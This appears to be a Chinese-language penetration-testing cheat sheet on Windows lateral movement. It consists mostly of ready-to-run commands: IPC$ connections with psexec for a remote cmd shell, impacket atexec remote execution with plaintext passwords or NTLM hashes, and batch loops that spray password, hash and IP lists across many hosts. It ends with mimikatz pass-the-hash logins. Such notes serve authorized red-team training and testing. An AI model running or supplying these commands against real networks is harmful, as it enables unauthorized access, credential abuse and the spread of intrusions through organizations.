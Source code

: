 **PSEXEC**

方法是 先建立IPC通道连接，然后直接使用，具体操作如下：

```bash

net use \\192.168.0.1\ipc$ “password” /user:administrator # 同上 建立连接
psexec.exe \\192.168.0.1 cmd                   # 进入半交互式cmdshell

# 另一种是在psexec的参数中指定账户密码
psexec.exe \\192.168.0.1 –u administrator –p password
```




**横向渗透明文/HASH传递 atexec-impacket**

```bash
atexec.exe ./administrator:Admin12345@192.168.xx.xx "whoami" # 直接执行命令
atexec.exe god/administrator:Admin12345@192.168.xx.xx "whoami" # 域
atexec.exe -hashes :ccef208c6485269c20db2cad21734fe7 ./administrator@192.168.xx.xx "whoami" # 传递HASH
```

**横向渗透明文/HASH传递批量利用-**

```bash
FOR /F %%i in (ips.txt) do net use \\%%i\ipc$ "admin!@#45" /user:administrator #批量检测IP对应明文连接
FOR /F %%i in (ips.txt) do atexec.exe ./administrator:admin!@#45@%%i whoami  #批量检测IP对应明文有回显
FOR /F %%i in (pass.txt) do atexec.exe ./administrator:%%i@192.168.xx.xx whoami #批量检测明文对应IP 有回显
FOR /F %%i in (hash.txt) do atexec.exe -hashes :%%i ./administrator@192.168.xx.xx whoami #批量检测HASH对应IP回显版
```






### 域

#### **域/工作组横向-PTH传递**

- PTH(pass the hash)
  - PTH在内网渗透中是一种很经典的攻击方式，原理就是攻击者可以直接通过LM Hash和NTLM Hash访问远程主机或服务，而不用提供明文密码。
  - PTH不能算作一种漏洞。而是可以算作一种技巧。利用获得的用户 HASH 去直接连接相同域的其他用户的电脑或者共享文件夹。尝试通过这样的方法横向碰撞出不同的机器。



**mimikatz**

- (工作组)通过 pth 进行远程登录(cmd)
```bash
mimikatz.exe privilege::debug

mimikatz.exe privilege::debug "sekurlsa::pth /user:用户名  /domain:目标机器IP  /ntlm:密码哈希"

mimikatz.exe privilege::debug "sekurlsa::pth /user:win10 /domain:192.168.1.1 /ntlm:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
```
